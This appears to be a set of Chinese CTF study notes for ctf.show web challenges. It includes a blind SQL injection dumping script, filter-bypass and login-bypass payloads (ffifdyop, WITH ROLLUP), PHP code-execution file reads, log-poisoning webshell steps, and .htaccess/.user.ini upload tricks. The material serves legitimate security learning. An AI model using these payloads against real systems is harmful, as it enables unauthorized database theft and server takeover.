


# CTFshow-WEB

## web3 文件包含

ctf.show WEB模块的第3关是一个文件包含漏洞,`include()`函数包含的文件会被执行，我们使用PHP伪协议配合抓包工具进行命令执行，从而获取flag

这一关的flag就存放在网站跟路径下的文件中

`php://input` 可以访问请求的原始数据，配合文件包含漏洞可以将post请求体中的内容当做文件内容执行,`enctype=multipart/form-data`时,`php:/input`将会无效




## web4 日志默认路径

1. `apache+Linux` 日志默认路径
/etc/httpd/logs/access_log
/var/log/httpd/access_log
2. `apache+win2003` 日志默认路径
D:\xampp\apache\logs\access.log
D:\xampp\apache\logs\error.log
3. `IIS6.0+win2003` 默认日志文件
C:\WINDOWS\system32\Logfiles
4. `IIS7.0+win2003` 默认日志文件
%SystemDrive%\inetpub\logs\LogFiles
5. `nginx` 日志文件
日志文件在用户安装目录 logs 目录下
/var/log/nginx/access.log


## web8 编写脚本注入(待解决)

```
第8关是一个SQL 注入漏洞, 注入点是数值型, 注入类型推荐使用布尔盲注,此关卡过滤了空格,逗号,and,union等关键字, 

1. 过滤空格, 可以使用括号() 或者注释/**/ 绕过
2. 过滤and, 可以使用or替代
3. 过滤union, 可以用盲注替代联合注入
4. 过滤逗号, 可以使用特殊语法绕过, 比如:substr(database(),1,1) 可以用substr(database() from 1 for 1)来代替
```


首先确定注入点, 输入以下payload使SQL恒成立

```cobol
?id=-1/**/or/**/true
```

 由于SQL恒成立, 数据库将查询出表中的所有内容, 并返回到前端展示

再输入一下payload 使SQL恒不成立

```cobol
?id=-1/**/or/**/false
```

 由于SQL恒不成立, 数据库查询不到任何数据, 从而导致页面空显示

由以上返回结果可知, 该页面存在SQL注入, 注入点为**数值型注入**


接下来进行脱库, 由于盲注脱库比较复杂, 此处我们构造Python脚本进行自动化脱库, 注意payload中的字符串不要换行, 否则可能会出问题

```python
import requests
 
url = 'http://4b5e1b2a-d612-4eb0-b228-c16500380436.challenge.ctf.show/index.php?id=-1/**/or/**/'
name = ''
 
# 循环50次(循环次数按照返回的字符串长度自定义)
for i in range(1, 50):
    # 获取当前使用的数据库
    # payload = 'ascii(substr(database()from/**/%d/**/for/**/1))=%d'
    # 获取当前数据库的所有表
    # payload = 'ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database())from/**/%d/**/for/**/1))=%d'
    # 获取flag表的字段
    # payload = 'ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666C6167)from/**/%d/**/for/**/1))=%d'
    # 获取flag表的数据
    payload = 'ascii(substr((select/**/flag/**/from/**/flag)from/**/%d/**/for/**/1))=%d'
    count = 0
    print('正在获取第 %d 个字符' % i)
    # 截取SQL查询结果的每个字符, 并判断字符内容
    for j in range(31, 128):
        result = requests.get(url + payload % (i, j))
 
        if 'If' in result.text:
            name += chr(j)
            print('数据库名/表名/字段名/数据: %s' % name)
            break
 
        # 如果某个字符不存在,则停止程序
        count += 1
        if count >= (128 - 31):
            exit()
```

> **注释：**
>
> 该Python函数的主要目的是利用SQL注入漏洞从目标Web应用程序中获取特定的数据（在这里是名为`flag`的字段中的数据）。函数执行的具体步骤如下：
>
> 1. **导入requests库**：requests是一个用于发送HTTP请求的Python库，这里用来向目标URL发送GET请求。
> 2. **设置URL和变量name**：定义了具有SQL注入点的URL和一个空字符串`name`，这个字符串将用于存储最终提取的数据。
> 3. **循环遍历字符**：通过一个外层循环（范围在1到50之间）来逐个获取查询结果中的字符。这里的循环次数可以根据实际返回字符串长度进行调整。
> 4. **构造Payload**：在脚本注释部分列出了四种不同的payload，它们分别用于获取当前使用的数据库、数据库的所有表、flag表的字段以及flag表的数据。在这个例子中，我们使用的是最后一个payload，用于获取`flag`表中的数据。
> 5. **内层循环判断字符**：对ASCII码值从31到127的每一个字符进行遍历：
>    - 发送GET请求：根据当前的循环索引i和ASCII码值j构造并发送带有payload的GET请求。
>    - 判断响应内容：如果响应文本包含字符串'If'，则说明找到了正确的字符，将其对应的ASCII码转换为字符后添加到`name`变量中，并输出当前已获取的部分信息。
>    - 计数与退出条件：若连续遍历完所有可能的ASCII码值仍未找到匹配项，则认为该位置不存在字符，计数器count加一。当count达到一定阈值时（这里是98，计算方法为(128 - 31)），程序会终止运行，防止陷入无限循环。
> 6. **最终输出**：当循环结束后，`name`变量将包含通过SQL注入获取到的flag数据，并在每次找到新字符时即时输出。
>
> 总结：此函数通过构造SQL注入payload并发送HTTP请求，逐步揭示和拼接目标数据库中`flag`表的特定数据。

table_name=0x666C6167这里是表名等于flag,flag转为十六进制编码形式，ox是十六进制前缀

**疑问：1. 为什么要16进制编码**


## web9 sql注入：`md5($password,true)`

首先`robots.txt`得到源码

```PHP
<?php
$flag = "";
$password = $_POST['password'];
if (strlen($password) > 10) {
	die("password error");
}
$sql = "select * from user where username ='admin' and password ='" . md5($password, true) . "'";
$result = mysqli_query($con, $sql);
if (mysqli_num_rows($result) > 0) {
	while ($row = mysqli_fetch_assoc($result)) {
		echo "登陆成功<br>";
		echo $flag;
	}
}
```

> 点击阅读原文：[**sql注入：md5($password,true)**](https://blog.csdn.net/March97/article/details/81222922)

介绍一下 md5 这个函数。

 **md5(string,raw)**

<table border="1" cellpadding="1" cellspacing="1"><tbody><tr><td>参数</td><td>描述</td></tr><tr><td>string</td><td>必需。要计算的字符串。</td></tr><tr><td>raw</td><td><p>可选。</p><ul><li>默认不写为 FALSE。32 位 16 进制的字符串</li><li>TRUE。16 位原始二进制格式的字符串</li></ul></td></tr></tbody></table>

```
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
```

​		这里需要注意的是，当 `raw` 项为 `true` 时，返回的这个原始二进制不是普通的二进制`(0,1)`，而是`'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c`这种。

​		上面的`ffifdyop`字符串对应的 16 位原始二进制的字符串就是”`'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c`。“`\`”后面的 3 个字符连同“`\`”算一个字符，比如“`\xc9`”，所以上述一共 16 个。当然，像`\xc9`这种字符会显示乱码。

​		然后我们可以用’ffifdyop‘带入，看一下实际的效果。


​		这里 32 位的 16 进制的字符串，两个一组就是上面的 16 位二进制的字符串。比如 27，这是 16 进制的，先要转化为 10 进制的，就是 39，39 在 ASC 码表里面就是`'`字符。6f 就是对应`o`。

​		然后我们得到的 sql 语句就是 SELECT * FROM admin WHERE username = 'admin' and password = ''or'6�]��!r,��b'

​		为什么 password = ''or'6�]��!r,��b'的返回值会是 true 呢，因为 or 后面的单引号里面的字符串（6�]��!r,��b），是数字开头的。当然不能以 0 开头。（我不知道在数据库里面查询的时候，�这种会不会显示）

​		这里引用一篇文章，里面的原话 “a string starting with a `1` is cast as an integer when used as a boolean.“

​		在 mysql 里面，在用作布尔型判断时，以 1 开头的字符串会被当做整型数。**要注意的是这种情况是必须要有单引号括起来的，比如 password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于 password=‘xxx’ or 1  ，也就相当于 password=‘xxx’ or true，所以返回值就是 true。当然在我后来测试中发现，**不只是 1 开头，只要是数字开头都是可以的。**

​		当然如果只有数字的话，就不需要单引号，比如 password=‘xxx’ or 1，那么返回值也是 true。（xxx 指代任意字符）

​		所以到这里为止，就完成了 sql 注入。同时要注意的是，这种 sql 语句，在 mysql 里面是可以行得通的，但是在 oracle 数据库里面这样的语句是有语法错误的。

​		所以回过头来为什么 ffifdyop 就是答案，因为 ffifdyop 的 md5 的原始二进制字符串里面有‘or’6 这一部分的字符。那么进一步思考这个单引号是否是必要的，这两个单引号是为了与原有的语句的单引号配对。所以我们理解了这个 sql 注入的原理，那么就明白了我们需要怎样的字符串。

​		当然答案也不止这一个。

```
content: 129581926211651571912466741651878684928
hex: 06da5430449f8f6f23dfc1276f722738
raw: \x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8
string: T0Do#'or'8
```

​		这个字符串也是符合要求的。因为它含有‘or’8

​		也许还有其他符合要求的字符串，也可以自己写个代码去计算，但是计算次数会很大，下面那篇文章里的作者就是自己写的代码计算的。

​		那我们从正向推算一下，要怎么得到我们要的答案。首先我们要找到一个字符串，这个字符串经过 md5 得到的 16 位原始二进制的字符串能帮我们实现 sql 注入。首先 or 这个字符串是必要的，同时为了配对原先 sql 语句里面有的单引号

​		在 or 的两边要有单引号，使它变成  password=‘xxx’or‘xxx’  的形式，所以我们需要的字符串的原始二进制格式的字符串里要包含    ‘or’    ，如果根据原始二进制来找到我们要的字符串可能会比较麻烦，那么可以根据 32 位 16 进制的字符串来查找，根据上面介绍的，  ‘or’   对应的 16 进制是   276f7227    ，所以我们的目标就是要找一个字符串取 32 位 16 进制的 md5 值里带有 276f7227 这个字段的，接着就是要看关键的数字部分了，在 276f7227 这个字段后面紧跟一个数字，除了 0，1-9，对应的 asc 码值是 49-57，转化为 16 进制就是 31-39，也就是我们需要有 276f7227+（31-39）这个字段，就可以满足要求。比如 xxxxxxxxxxxxxxxx276f7227（31-39)xxxxxx


## web10 (with rollup)

得到源码

```php
<?php
$flag = "";
function replaceSpecialChar($strParam)
{
	$regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";
	return preg_replace($regex, "", $strParam);
}
if (!$con) {
	die('Could not connect: ' . mysqli_error());
}
if (strlen($username) != strlen(replaceSpecialChar($username))) {
	die("sql inject error");
}
if (strlen($password) != strlen(replaceSpecialChar($password))) {
	die("sql inject error");
}
$sql = "select * from user where username = '$username'";
$result = mysqli_query($con, $sql);
if (mysqli_num_rows($result) > 0) {
	while ($row = mysqli_fetch_assoc($result)) {
		if ($password == $row['password']) {
			echo "登陆成功<br>";
			echo $flag;
		}
	}
}
?>
```

> **注释：**
>
> 该PHP脚本包含一个函数`replaceSpecialChar()`和一系列用于数据库连接、SQL查询以及登录验证的逻辑。
>
> 1. `replaceSpecialChar($strParam)` 函数：
>    - 功能：此函数接收一个字符串参数 `$strParam`，使用正则表达式 `/regex/i` 来查找并替换其中可能被用于SQL注入攻击的部分。正则表达式匹配以下字符或关键字："select", "from", "where", "join", "sleep", "and", 空格, "union" 以及逗号（`,`）。
>    - 返回值：返回处理后的字符串，所有匹配到的特殊字符或关键字都被移除。
> 2. 数据库连接部分：
>    - 如果无法建立数据库连接，则通过 `die('Could not connect: ' . mysqli_error());` 输出错误信息并终止脚本执行。
> 3. SQL注入防护检查：
>    - 对输入的用户名 `$username` 和密码 `$password` 调用 `replaceSpecialChar()` 函数，并比较原字符串长度与处理后字符串长度。如果长度不一致，说明存在可能的SQL注入攻击，此时输出 "sql inject error" 并终止脚本。
> 4. 登录验证流程：
>    - 根据用户名构建SQL查询语句（未对输入进行预处理和转义，实际上此处仍有SQL注入风险），尝试从 `user` 表中获取对应记录。
>    - 若查询结果中存在行数大于0的记录，则循环遍历查询结果，比对密码字段是否与用户输入的密码相匹配。
>    - 当找到匹配的用户名和密码时，输出"登陆成功"，同时显示变量 `$flag` 的内容（这里 `$flag` 是一个空字符串，但其实际用途取决于上下文环境）。

> `$regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";`
> 从源码中可以得知几乎把注入用到的关键词过滤的差不多了。
> 如果只有上面这一条现在可以采用双写绕过，但是加上下面这点，使得无法双写绕过
>
> ```php
> if(strlen($username)!=strlen(replaceSpecialChar($username))){
> 	die("sql inject error");
> }
> ```

介绍一下两个sql语句：

1. group by：对进行查询的结果进行分组。group by后跟什么，就按什么分组

2. with rollup：group by 后可以跟with rollup，表示在进行分组统计的基础上再次进行汇总统计。

   看看示例图片（结果中将会多出一行，其中password列为null，count（*）为统计和。）

   

过滤空格的话用/**/进行绕过就行

pyload: `admin'/**/or/**/1=1/**/group/**/by/**/password/**/with/**/rollup/**/# `

```php
执行的完整语句为
$sql = "select * from user where username = 'admin' or 1=1 group by password with rollup #'"
```

在用户名框里输入这个，密码框里为空即可。因为加入with rollup后 password有一行为NULL，我们只要输入空密码使得（`NULL==NULL`）即可满足`$password==$row['password']`

这样就能登录成功了。即可获得flag


## web12 利用代码执行漏洞读取敏感文件（待解决）

看到cmd，尝试`/?cmd=phpinfo();`

出现回显，说明存在代码执行漏洞，采用glob通配符命令得到文件名

> php的函数`glob()`; glob() 函数返回匹配指定模式的文件名或目录。
> 该函数返回一个包含有匹配文件/目录的数组。如果失败则返回 FALSE。
>
>  举个例子:
>  `glob("*") `匹配任意文件
>  `glob("*.txt")`匹配以txt为后缀的文件

有了这个方法我们先把当前目录下所有的文件找出来看看有没有可用的。
 输入`?cmd=print_r(glob("*"));`

> **print_r() 函数**用于打印变量，以更容易理解的形式展示。

最后/?cmd=highlight_file('903c00105c0141fd37ff47697e916e53616e33a72fb3774ab213b3e2a732f56f.php');

> `hightlight_file()`可以使文件内容高亮显示, 常用于读取文件内容

> **关于php中echo()，print()，print_r()的区别**
>
> echo，print的区别在于 echo 可以输出多个变量值，而 print 只有一个变量，做为一个字符串输出。另一点区别在于 echo 没有返回值，print 有返回值。
>
> print 不能输出数组和对象。print_r 可以输出 stirng、int、float、array、object 等，输出 array 时会用结构表示，print_r 输出成功时返回 true；而且 print_r 可以通过 print_r($str,true) 来使 print_r 不输出而返回 print_r 处理后的值。
>
> print 是打印字符串。print_r 则是打印复合类型，如数、对象等。
>
> 在 PHP 中的执行速率从快到慢为：echo()、print()、print_r()
>
> echo 是 PHP 语句，print 和 print_r 是函数，语句没有返回值，函数可以有返回值(即便没有用)
>
> echo()：可以同时输出多个字符串，可以多个参数，并不需要圆括号，无返回值。
>
>
> print()：只可以同时输出一个字符串，一个参数，需要圆括号，有返回值，当其执行失败时返 flase。print  的用法和C语言很像，所以会对输出内容里的%做特殊解释
>
> print_r()：功能：只用于输出数组。


**疑问：**

官方的WP中有的不是这样做的，如下：

> nginx日志写shell，然后蚁剑连接利用插件绕过disable_function
>
> 1、?cmd=include("/var/log/nginx/access.log"); 拦截包，在UA头内加入php一句话木马
>
> 2、蚁剑连接，发现无操作权限，使用插件绕过disable_function，成功查看flag

问题在于我不会使用 disable_function 插件


## web13  (.htaccess) (.user.ini)

==**.htaccess**==

```
<FilesMatch "a.txt">
SetHandler application/x-httpd-php
</FilsMatch>
```

==**.user.ini**==

```
auto_append_file=a.txt
```


.htaccess是伪静态环境配置文件，用于lamp。  .user.ini是lnmp文件，里面放的是你网站的文件夹路径地址。目的是防止跨目录访问和文件跨目录读取.  配置 放在根目录 .user.ini 

**两个PHP方法：**

auto_prepend_file:在页面顶部加载文件

auto_append_file:在页面底部加载文件

上传之后，任何一个PHP文件都可以使用蚁剑等工具连接


## web14 Apache主要配置文件

Apache 主要配置文件注释
Apache的主配置文件：/etc/httpd/conf/httpd.conf
默认站点主目录：/var/www/html/
Apache服务器的配置信息全部存储在主配置文件/etc/httpd/conf/httpd.conf中，这个文件中的内容非常多，用wc命令统计一共有1009行，其中大部分是以#开头的注释行。

`union select load_file('/var/www/html/index.php')`
